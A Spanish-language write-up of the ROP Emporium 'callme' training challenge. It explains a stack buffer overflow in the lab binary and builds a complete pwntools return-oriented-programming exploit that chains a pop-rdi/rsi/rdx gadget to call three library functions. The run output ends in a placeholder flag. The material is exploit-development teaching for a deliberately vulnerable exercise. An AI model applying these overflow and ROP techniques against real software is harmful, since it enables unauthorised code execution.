 ```yaml
---
layout: default
title: ROP emporitum - callme
parent: Pwn y Reversing
---
```


# ROP emporitum - callme
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---
Para resolver este desafio usaremos ROP para llamar multiples funciones con multiples argumentos en el orden correcto
{:.lead}

## Analisis

![](/assets/img/callme/1.png)

No tiene canary, PIE, pero tiene NX, asi que no podemos ejecutar codigo en el stack.

Al ver la funcion main, lo unico interesante es el llamado a la funcion ```pwnme```

![](/assets/img/callme/2.png)

Una vez en esa funcion, podemos ver la vulnerabilidad:

![](/assets/img/callme/3.png)

Vemos que esta intentando escribir ```0x200``` bytes (512 en decimal) de la entrada estandar (stdin), dado un buffer, pero... Te voy a demostrar por que es vulnerable.

Cuando se hace el llamado a ```read()```, se hace con esta estructura:

```c
ssize_t read(int fd, void *buf, size_t count);
```

El primer argumento ```fd```, se le conoce como ```file decriptor```, que en palabras simples, se usa para crear una entrada para un archivo, esa entrada se identifica con un numero unico

El segundo argumento es un puntero a un buffer, y este buffer se esta creando aca:

![](/assets/img/callme/4.png)

Podemos ver que se esta inicializando un buffer de ```0x20``` bytes (32 en decimal) con el nombre de ```buf```

El tercer argumento es la cantidad de bytes que va a escribir en ese buffer, que son ```0x200```.

Entonces representando la funcion con los valores, quedaria asi:

```c
ssize_t read(0, 32, 512);
```

Esta tratando de escribir ```512``` bytes en ```32```, y como no se esta limitando la cantidad de bytes ingresados, ese buffer de ```32``` bytes va a petar, es la clasica vulnerabilidad buffer overflow, por que se esta sobrepasando la cantidad del buffer, que son 32.

Al mostrar todas las funciones en radare, tenemos que existe una funcion que se llama ```usefulFunction```:

![](/assets/img/callme/5.png)

Al mostrar el codigo de la funcion:

![](/assets/img/callme/6.png)

Nos damos cuenta que esta llamando a las funciones ```callme_three```, ```callme_two``` y ```callme_one```, y se estan llamando con los argumentos ```rdi```, ```rsi``` y ```rdx```.

Como curiosidad, si intentamos mostrar el codigo de una funcion de esas, no vamos a poder, sale algo como esto:

![](/assets/img/callme/7.png)

Y eso es por que las funciones ```callme_three```, ```callme_two``` y ```callme_one``` se encuetran en PLT que se esta cargando dinamicamente de ```libcallme.so```, entonces para poder verlas, tenemos que ejecutar el binario, me ire a gdb y pondre un breakpoint en el ```ret``` de la funcion main:

```
0x0000000000400897 <+80>:	ret
```

Y ahora si ya podemos ver su codigo, y lo mas relevante es que cuando se hace un llamado a ```callme_one```, los argumentos que se le pasan los compara con:

- 0xdeadbeefdeadbeef
- 0xcafebabecafebabe
- 0xd00df00dd00df00d

![](/assets/img/callme/8.png)

(en ```callme_three``` y ```callme_two``` es lo mismo)

Asi que ahora sabemos que debemos de llamar a ```callme_three```, ```callme_two``` y ```callme_one``` con los valores con los que se comparan los registros ```rdi```, ```rsi``` y ```rdx```

## Crafteando el exploit

Para saber el desplazamiento para llegar al RIP, podemos generar una cadena con ```pattern create 100``` y pasaresela al programa, despues podemos hacer ```pattern offset $rbp```:

![](/assets/img/callme/9.png)

Y al sumarle 8 bytes, y nos da 40

Asi va esta ahora:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

```

Como tenemos que escribir en rdi, rsi y rdx, debemos que buscar un gadget que nos permita hacer eso, usare ROPgadget con el comando:

```
ROPgadget --binary callme | grep 'pop rdi ; pop rsi ; pop rdx ; ret'
```

Y este nos funciona: ```0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret```

Asi va el exploit:

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)
```

Despues ocupamos las direcciones de callme_one y las demas, eso lo podemos hacer con el comando ```afl``` en radare:


```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)
```

Y por ultimo tenemos que mandar el payload en el orden correcto, primero el padding, luego el gadget, los valores de los argumentos y la funcion, asi queda el exploit completo

```python
from pwn import *

p = process("./callme")

padding = b"A" * 40

argumento_1 = p64(0xdeadbeefdeadbeef)
argumento_2 = p64(0xcafebabecafebabe)
argumento_3 = p64(0xd00df00dd00df00d)

gadget = p64(0x000000000040093c)

callme_one = p64(0x00400720)
callme_two = p64(0x00400740)
callme_three = p64(0x004006f0)

args = argumento_1 + argumento_2 + argumento_3

payload = padding + gadget + args + callme_one
payload += gadget + args + callme_two
payload += gadget + args + callme_three

p.sendline(payload)
print(p.recvall().decode())
```

Y ya tenemos la flag

```
󰣇  c4rta /tmp/callme  python3 exploit.py
[+] Starting local process './callme': pid 15024
[+] Receiving all data: Done (172B)
[*] Process './callme' stopped with exit code 0 (pid 15024)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

Eso ha sido todo, gracias por leer ❤
